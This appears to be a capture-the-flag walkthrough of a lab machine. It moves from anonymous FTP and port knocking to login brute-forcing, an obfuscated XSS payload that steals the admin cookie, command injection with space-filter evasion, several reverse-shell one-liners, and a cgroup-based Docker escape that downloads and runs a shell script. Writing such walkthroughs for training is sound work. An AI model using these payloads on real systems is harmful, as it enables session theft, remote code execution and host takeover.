







 
# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |


# RECONNAISSANCE
---

FTP Anonymous login is enabled:

```
ftp 10.10.20.176
Connected to 10.10.20.176.
220 (vsFTPd 3.0.3)
Name (10.10.20.176:samsepiol): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           103 Aug 28  2020 info.txt
-rw-r--r--    1 ftp      ftp           248 Aug 26  2020 jokes.txt
-rw-r--r--    1 ftp      ftp        737512 Aug 18  2020 trace.pcapng
226 Directory send OK.
```

We can get all files with `mget *` and proceed:

```bash
cat info.txt && cat jokes.txt
I have included all the network info you requested, along with some of my favourite jokes.

- Paramore

Taylor: Knock, knock.
Josh:   Who's there?
Taylor: The interrupting cow.
Josh:   The interrupting cow--
Taylor: Moo

Josh:   Knock, knock.
Taylor: Who's there?
Josh:   Adore.
Taylor: Adore who?
Josh:   Adore is between you and I so please open up!
```

As we can see, there is a hint on `port knocking`, port knocking is a stealthy method used to open closed ports on a firewall by sending a specific sequence of connection attempts (knocks) to predefined ports. These ports appear closed from the outside, but when the correct sequence is received, the firewall temporarily opens a port (e.g., SSH) for the client. It’s like a secret handshake, only those who know the right knock pattern can get in. This technique adds an extra layer of obscurity and is often used to hide services from unauthorized users.

To visualize more info on port knocking, refer to:

https://www.packetlabs.net/posts/what-is-port-knocking/

If we analyze the packet on wireshark, we can find this:


We can see some `TCP` requests being made to an IP, let's filter with:

```
ip.addr == 192.168.236.131
```

We found our combination to knock, we can use `knock` utility on Kali, to install it do:

```bash
sudo apt install knockd
```

We can then knock and use nmap to check the port that will open:

```bash
knock IP 7864 8273 9241 12007 60753

nmap -sV -sC -T4 -Pn 10.10.20.176
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-04 18:17 EDT
Nmap scan report for 10.10.20.176
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.21.28
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:91:89:96:af:bc:06:b9:8d:43:df:53:dc:1f:8f:12 (RSA)
|   256 25:0b:be:a2:f9:64:3e:f1:e3:15:e8:23:b8:8c:e5:16 (ECDSA)
|_  256 09:59:9a:84:e6:6f:01:f3:33:8e:48:44:52:49:14:db (ED25519)
8080/tcp open  ssl/http Werkzeug httpd 1.0.1 (Python 2.7.18)
|_http-title: Misguided Ghosts
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| ssl-cert: Subject: commonName=misguided_ghosts.thm/organizationName=Misguided Ghosts/stateOrProvinceName=Williamson Country/countryName=TN
| Not valid before: 2020-08-11T16:52:11
|_Not valid after:  2021-08-11T16:52:11
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can proceed to check the web application:


There's a simple web application with an image, let's fuzz:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "https://10.10.20.176:8080/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.20.176:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login        [Status: 200, Size: 761, Words: 107, Lines: 29, Duration: 178ms]
```

Login page, we don't have any credentials yet, let's try SQLI:




No luck, since this is a `https` web application, checking the certificate could be useful:


There's a possible user named `zac`, we can try brute forcing the login page with hydra or Caido:

```bash
hydra -l zac -P /usr/share/wordlists/rockyou.txt 10.10.20.176 https-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials." -s 8080
```



We can see that credentials are:

```
zac:zac
```

Once we go into the login page, we can see this:




Let's begin exploitation.


# EXPLOITATION
---

We can add title's and subtitles, the message saying:

```
Create a post below; admins will check every two minutes so don't be rude.
```

Could hint at a possible XSS on here, `HTTPONLY` flag is set to false so maybe we can perform cookie hijacking, let's check if XSS exists:


If we try basic xss, we can notice it says what we're too late for the XSS bounty, which is true partially, XSS still exists, the issue is that some characters are being filtered due to a poor protection on the page, we can still obfuscate our payload, refer to this article:

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

We need to check which characters are being filtered, for example, `<>` and `</>` are being filtered but `script` is too, we can change our payload for an obfuscated version of these two:

```bash
&lt;sscriptcript&gt;alert('xss')&lt;/sscriptscript&gt;
```


XSS works, let's try to steal the admin cookie with `OOB XSS` :

We can use the following payload:

```js
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://10.14.21.28:8000/" + document.cookie;&lt;/sscriptcript&gt;
```

We need to set up a python server and wait two minutes for the admin to review the page:

```python
10.10.20.176 - - [04/Jul/2025 23:27:28] code 404, message File not found

10.10.20.176 - - [04/Jul/2025 23:27:28] "GET /login=hayley_is_admin HTTP/1.1" 404 -
```

We got our cookie:

```
hayley_is_admin
```

Since we got our admin cookie, we need to know in where to utilize it, if we go to the dashboard, nothing changes:




We can fuzz with our new cookie to check if we missed anything:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "https://10.10.20.176:8080/FUZZ" -H "Cookie: login=hayley_is_admin" -H "User-Agent: Mozilla/5.0" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.20.176:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Header           : Cookie: login=hayley_is_admin
 :: Header           : User-Agent: Mozilla/5.0
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

photos
login
```

We can find `photos` on here, let's check it up:



We can upload files, let's take a look at the request for uploading a test file:




The error message hints at command injection, we get:

```xml
<pre>cannot access &#39;file.sh&#39;: No such file or directory</pre>
```

What's happening here is that once we upload a file, the server uses the filename from the GET parameter, in this case `image=file.sh` directly in a shell command without prior sanitization, which means that we may be able to exploit command injection to achieve RCE, let's use a simple test payload:

```bash
file.sh;id
```

 

It says we are root, we may be inside of a docker container, let's get a shell:

```
file.sh;bash+-i+>%26+/dev/tcp/IP/4444+0>%261
```

We get:

```
<pre>cannot access &#39;file.sh;bash-i&gt;&amp;/dev/tcp/IP/44440&gt;&amp;1&#39;: No such file or directory</pre>
```

Which means that `+` may not be properly accepted, it seems like the spaces are filtered:

```
file.sh;+ 

<pre>cannot access &#39;file.sh;&#39;: No such file or directory</pre>
```

Indeed, spaces are being filtered, we can use`${IFS}`, `${IFS}` stands for Internal Field Separator, a special environment variable in Unix-like
shells that defines what characters are used to split fields, many filters look for literal spaces but tend to miss environment variables like this one, let's try to check if it works first:



It works, no error message appears, we can restructure our shell command now, after testing `bash` is also filtered too, we need another reverse shell, let's try netcat one:

```bash
nc${IFS}IP${IFS}4444${IFS}-e${IFS}/bin/sh
```


We got our shell, let's begin privesc


# PRIVILEGE ESCALATION
---

Let's look around, we are inside of a docker container, we now this thanks to the `.dockerenv` variable and the fact we are root, we can also run linpeas and it will tell us we are inside of a container.


We can check that `zac`'s home is inside of the container, we can find this:

```bash
ls -la /home
total 12
drwxr-xr-x    1 root     root          4096 Jul  4 22:16 .
drwxr-xr-x    1 root     root          4096 Jul  4 22:16 ..
drwxr-xr-x    3 root     root          4096 Jul  4 22:16 zac
ls -la /home/zac
total 12
drwxr-xr-x    3 root     root          4096 Jul  4 22:16 .
drwxr-xr-x    1 root     root          4096 Jul  4 22:16 ..
drwxrwxr-x    2 1001     1001          4096 Aug 26  2020 notes
ls -la /home/zac/notes
total 16
drwxrwxr-x    2 1001     1001          4096 Aug 26  2020 .
drwxr-xr-x    3 root     root          4096 Jul  4 22:16 ..
-rw-r--r--    1 1001     1002          1675 Aug 25  2020 .id_rsa
-rw-r--r--    1 1001     1002           270 Aug 25  2020 .secret
```

Let's read the secret:

```
Zac,

I know you can never remember your password, so I left your private key here so you don't have to use a password. I ciphered it in case we suffer another hack, but I know you remember how to get the key to the cipher if you can't remember that either.

- Paramore
```

We have two privilege escalation paths here, in the first one, we can decrypt the vigenere cipher inside of `id_rsa` and escalate through zac, the easier way can be done exploiting the `privilege mode`, we know the container has the privilege mode enabled thanks to linpeas:


If we search some articles about docker escape, we can find one of them which talks about this privesc technique:

https://vickieli.dev/system%20security/escape-docker/

On this article, we can check how to escape the container using a script:

**Container Escape**

So how do you escape a privileged container? By using this script. This example and PoC were taken from the [Trail of Bits Blog](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). Read the original post for a more detailed explanation of the PoC:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

This PoC works by exploiting cgroup’s `release_agent` feature.

After the last process in a cgroup exits, a command used to remove abandoned cgroups runs. This command is specified in the `release_agent` file and it runs as root on the host machine. By default, this feature is disabled and the `release_agent` path is empty.

This exploit runs code through the `release_agent` file. We need to create a cgroup, specify its `release_agent` file, and trigger the `release_agent` by killing all the processes in the cgroup. The first line in the PoC creates a new group:

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

The next line enables the `release_agent` feature:

```
echo 1 > /tmp/cgrp/x/notify_on_release
```

Then, the next few lines write the path of our command file to the `release_agent` file:

```
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

We can then start writing to our command file. This script will execute the `ps aux` command and save it to the `/output` file. We also need to set the script’s execute permission bits:

```
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

Finally, trigger the attack by spawning a process that immediately ends inside the cgroup that we created. Our `release_agent` script will execute after the process ends. You can now read the output of `ps aux` on the host machine in the `/output` file:

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

You can use the PoC to execute arbitrary commands on the host system. For example, you can use it to write your SSH key to the root user’s `authorized_keys` file:

```
cat id_rsa.pub >> /root/.ssh/authorized_keys
```


Back to our machine, we've found the way to perform the docker escape, instead of writing our key into `authorized_keys`, we can simply send a reverse shell, let's do the following:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo 'curl 10.14.21.28:8000/shell.sh -o /dev/shm/shell.sh' >> /cmd
echo 'chmod +x /dev/shm/shell.sh' >> /cmd
chmod a+x /cmd
echo 'sh /dev/shm/shell.sh' >> /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


Before doing that, we need to host a `shell.sh` file with the following contents:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/IP/9001 0>&1
```

Once we start our listener and send the last command, we receive our shell as root:

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.21.28] from (UNKNOWN) [10.10.20.76] 33650
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Let's get both flags:

```
# cat /home/hayley/user.txt
{d0ck3r_35c4p3}

# cat /root/root.txt
{p1v0t1ng_15_fun}
```


